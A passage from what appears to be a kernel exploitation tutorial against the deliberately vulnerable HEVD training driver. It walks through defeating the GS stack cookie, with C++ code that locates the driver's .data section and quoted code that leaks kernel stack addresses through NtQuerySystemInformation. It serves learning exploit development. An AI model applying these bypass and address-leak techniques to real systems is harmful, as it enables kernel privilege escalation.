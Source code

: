 4. If they're not identical, KeBugCheckEx is called with [0xF7 bugcheck code](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/bug-check-0xf7--driver-overran-stack-buffer)

By combining a read primitive with our knowledge of GS implementation we can see we need two things to be able to calculate to correct stack cookie.  
First, we need to get the original cookie value from the _\_data_ section. To do it we can load the driver in our code and parse its headers to calculate to offset to the section.

Example code (error checks omitted):
```cpp
HANDLE hHevdLocalBase = LoadLibraryExA("C:\\Users\\User\\Desktop\\HEVD.sys", NULL, DONT_RESOLVE_DLL_REFERENCES);
printf("[*] Loaded local HEVD.sys\n");
printf("[+] Searching for .data section offset\n");
PIMAGE_NT_HEADERS hevdImageHeader = (PIMAGE_NT_HEADERS)((ULONG_PTR)hHevdLocalBase + ((PIMAGE_DOS_HEADER)hHevdLocalBase)->e_lfanew);
ULONG_PTR hevdSectionLocation = IMAGE_FIRST_SECTION(hevdImageHeader);
DWORD hevdDataSectionOffset = 0;

for (int i = 0; i < hevdImageHeader->FileHeader.NumberOfSections; i++) {
    PIMAGE_SECTION_HEADER hevdSection = (PIMAGE_SECTION_HEADER)hevdSectionLocation;
    if (strcmp(hevdSection->Name, ".data") == 0) {
        hevdDataSectionOffset = hevdSection->VirtualAddress;
    }
    hevdSectionLocation += sizeof(IMAGE_SECTION_HEADER);
}
if (hevdDataSectionOffset == 0) {
    printf("[-] Failed locating the .data section of hevd.sys locally\n");
    bResult = FALSE;
    goto _cleanup;
}
printf("[*] Offset of .data section of hevd.sys is: %d\n", hevdDataSectionOffset);
intptr_t hevdDataSection = hevdDataSectionOffset + (intptr_t)hevdBase;
printf("[*] The .data section of hevd.sys in the kernel is at: 0x%llx\n", hevdDataSection);
```
With our read primitive we'll read the address we calculated.
But then comes the tricky part - we need to know both the cookie, but also the RSP value **at the start of the function**.  
At first, this seems like a problem, because the stack is dynamic so how could we predict its value when we exploit the buffer overflow?  

I'm not so sure about my chosen method, but the theory is sound and in practice it works every time.
The plan is this:
1. Calculate/leak/find somehow a stack address in the kernel
2. Find constants or predictable values in the stack the we'll use as anchors
3. Scan for these predictable values using our read primitive
4. Calculate what RSP will be when the Buffer Overflow is called, using the addresses found in step 3

For every thread in usermode process the OS allocates usermode stack and kernelmode stack.
Our plan relies on the fact that the driver behavior is pretty simple and consistent, and that the vulnerable functions are called in the context of our thread.  
So to achieve step 1 we'll take a method from Sam Brown's (sam-b) [awesome repository](https://github.com/sam-b/windows_kernel_address_leaks) for kernel address leaks.
[It uses](https://github.com/sam-b/windows_kernel_address_leaks/blob/3810bec445c0afaa4e23338241ba0359aea398d1/NtQuerySysInfo_SystemProcessInformation/NtQuerySysInfo_SystemProcessInformation/NtQuerySysInfo_SystemProcessInformation.cpp#L158) NtQuerySystemInformation and it gives us the address of the end of our kernel thread (the "StackLimit" struct member):
```cpp
PVOID stackLimit = NULL;
while (pProcessInfo != NULL) {
    if (myRtlEqualUnicodeString(&(pProcessInfo->ImageName), &myProc, TRUE)) {
        printf("[*] Process: %wZ\n", pProcessInfo->ImageName);
        for (unsigned int i = 0; i < pProcessInfo->NumberOfThreads; i++) {
            PVOID stackBase = pProcessInfo->Threads[i].StackBase;
```